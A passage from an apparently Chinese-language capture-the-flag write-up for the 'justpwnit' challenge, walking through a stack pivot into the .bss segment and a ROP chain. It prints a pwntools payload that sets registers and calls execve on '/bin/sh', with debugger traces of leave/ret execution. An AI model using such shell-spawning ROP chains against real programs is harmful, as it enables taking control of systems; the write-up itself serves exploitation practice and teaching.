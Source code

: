 程序继续执行，将执行`sys_read()`相关汇编代码指令；

```
 ► 0x403888 <__unlock+59>           syscall  <SYS_read>
        fd: 0x0
        buf: 0x40c540 (buf+704) ◂— 0x0
        nbytes: 0x100

```

用户输入getshell的系统调用：

### execve

```python
payload2  = '/bin/sh\x00'
payload2 += p64(pop_rdx_ret) + p64(0)               # rdx --envp
payload2 += p64(pop_rsi_ret) + p64(0)               # rsi --argv
payload2 += p64(pop_rdi_ret) + p64(bss_addr)        # rdi --file,addr
payload2 += p64(pop_rax_ret) + p64(0x3b)            # rax --syscall number
payload2 += p64(syscall)                            # syscall
p.sendline(payload2)
```

接着执行：

```
 ► 0x401123 <__do_global_dtors_aux+51>    pop    rbp
   0x401124 <__do_global_dtors_aux+52>    ret             <0x40123b; justpwnit+45>
 ---------------------------------------------------------------------------------
00:0000│ rsp  0x7f68494ab0a8 —▸ 0x40c540 (buf+704) ◂— 0x68732f6e69622f /* '/bin/sh' */
01:0008│      0x7f68494ab0b0 —▸ 0x40123b (justpwnit+45) ◂— leave  

```

`pop rbp`将`mov rsp, rbp`，rbp指向了rsp，即`rbp->0x7f68494ab0a8`；

当执行`ret`后，将执行`leave`操作；

```
 ► 0x40123b <justpwnit+45>                leave  
   0x40123c <justpwnit+46>                ret 
```

`leave`操作将使rsp指向rbp，`ret`操作将跳转到rsp，因此程序执行来到了`0x40c540`，即.bss段上；

```
00:0000│ rsp  0x40c550 (buf+720) ◂— 0x0
01:0008│      0x40c558 (buf+728) —▸ 0x4019a3 (mmap64+197) ◂— pop    rsi
02:0010│      0x40c560 (buf+736) ◂— 0x0
03:0018│      0x40c568 (buf+744) —▸ 0x401b0d (fgets_unlocked+360) ◂— pop    rdi
04:0020│      0x40c570 (buf+752) —▸ 0x40c540 (buf+704) ◂— 0x68732f6e69622f /* '/bin/sh' */
05:0028│      0x40c578 (buf+760) —▸ 0x401001 (_init+1) ◂— pop    rax
06:0030│      0x40c580 (buf+768) ◂— 0x3b /* ';' */
07:0038│      0x40c588 (buf+776) —▸ 0x403888 (__unlock+59) ◂— syscall 

```
